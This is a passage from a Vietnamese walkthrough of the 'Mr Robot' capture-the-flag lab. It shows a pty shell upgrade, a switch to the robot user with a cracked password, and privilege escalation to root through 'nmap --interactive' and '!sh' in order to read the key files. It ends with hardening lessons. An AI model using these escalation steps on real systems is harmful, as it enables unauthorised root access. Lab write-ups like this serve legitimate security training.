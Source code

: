 <p>echo &quot;import pty; pty.spawn(&#39;/bin/bash&#39;)&quot; &gt; /tmp/asdf.py</p>
<p>Câu lệnh trên thực hiện import các câu lệnh bash từ thư viện <strong>pty</strong> cho phép thực thi các lệnh trên máy chủ. Để chạy đoạn script này gõ câu lệnh như sau:</p>
<pre><code class="lang-python"><span class="hljs-keyword">python</span> /tmp/asdf.<span class="hljs-keyword">py</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-24.png#full" alt="mr-robot-24.png"></p>
<p>Bây giờ chúng ta đang ở trong trạng thái có thể thực hiện các lệnh giống như Terminal của Linux. Nếu lưu ý một tý, có thể thấy user mặc định của máy chủ này là <strong>daemon</strong>. Chúng ta cần phải đăng nhập với user là robot, có thể thực hiện các lệnh dưới đây:</p>
<pre><code class="lang-bash"><span class="hljs-attribute">su - robot</span>
</code></pre>
<p>Nó yêu cầu chúng ta phải nhập mật khẩu, chúng ta hãy lấy mật khẩu mà chúng ta vừa giải mã ra được.</p>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-25.png#full" alt="mr-robot-25.png"></p>
<p>Bây giờ chúng ta có thể xem được dữ liệu của chìa khóa thứ 2 rồi, thực hiện câu lệnh này:</p>
<pre><code class="lang-bash">cat <span class="hljs-type">key</span><span class="hljs-number">-2</span>-of<span class="hljs-number">-3.</span>txt
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-26.png#full" alt="mr-robot-26.png"></p>
<h2 id="buoc-8-tim-chia-khoa-cuoi-cung">Bước 8: Tìm chìa khóa cuối cùng</h2>
<p>Chúng ta thử vào thư mục root bằng câu lệnh sau:</p>
<pre><code class="lang-bash"><span class="hljs-built_in">cd</span> /root
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-27.png#full" alt="mr-robot-27.png"></p>
<p>Chúng ta đành phải truy cập thư mục root thông qua công cụ <strong>Nmap</strong>. Ngoài tính năng quét mạng ra, nó còn có thể giúp chúng ta tương tác với hệ điều hành. Chúng ta sẽ thực hiện câu lệnh sau để tương tác với hệ điều hành.</p>
<pre><code class="lang-bash">nmap <span class="hljs-comment">--interactive</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-28.png#full" alt="mr-robot-28.png"></p>
<p>Đoạn code trên sẽ cho phép chúng ta leo thang đặc quyền (<strong>privilege escalation</strong>) và chiếm quyền kiểm soát hệ thống. Chúng ta sẽ kiểm tra thư mục root với các câu lệnh sau:</p>
<pre><code class="lang-bash">!<span class="hljs-keyword">sh</span>
whoami
<span class="hljs-keyword">cd</span> /root
<span class="hljs-keyword">ls</span>
</code></pre>
<p>Chúng ta đã tìm được chìa khóa thứ ba. Chúng ta hiển thị dữ liệu chìa khóa với cách thức như trên. Dưới đây là kết quả:</p>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-29.png#full" alt="mr-robot-29.png"></p>
<h1 id="ket-luan">Kết Luận</h1>
<p>Vừa rồi chúng ta đã thực hiện rất nhiều thủ thuật để có thể tìm thấy 2 chìa khóa còn lại. Từ đây chúng ta rút được nhiều kinh nghiệm như sau:</p>
<ul>
<li>Cần phải kiểm tra file robots.txt kỹ càng để cho phép truy cập hay không truy cập thư mục nào.</li>
<li>Giao thức http thực sự không an toàn. Cần phải nâng cấp thành chứng chỉ SSL để được mã hóa khi gửi dữ liệu lên server.</li>
<li>Cần phải đặt mật khẩu có độ dài và độ phức tạp lớn.</li>
</ul>
